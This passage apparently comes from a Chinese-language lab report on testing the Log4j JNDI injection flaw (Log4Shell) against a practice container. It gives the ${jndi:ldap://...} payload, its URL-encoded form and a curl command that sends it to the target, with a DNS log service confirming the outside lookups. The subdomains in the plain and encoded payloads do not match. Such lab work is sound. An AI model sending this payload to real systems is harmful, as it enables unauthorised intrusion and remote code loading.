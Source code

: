 根据靶场容器 URL 和获取的子域名，对 payload 字段进行编码, 编码平台可使用 https://www.urlencoder.org/ .

```shell
# 编码内容 : ${jndi:ldap://ottlt5.dnslog.cn/dalechu}

# 编码结果 : %24%7Bjndi%3Aldap%3A%2F%2F95p55c.dnslog.cn%2Fdalechu%7D

# curl 命令 :
curl "http://192.168.5.132:50721/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F95p55c.dnslog.cn%2Fdalechu%7D"

```

发现四条解析记录，说明漏洞可利用 : 

![](../img/DaleChu/curl.png)



### 参考

- [Kali 关闭自动锁屏功能](https://www.cnblogs.com/test-gang/p/18275596)

- [Xuyan-cmd 的实验报告 ](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice)
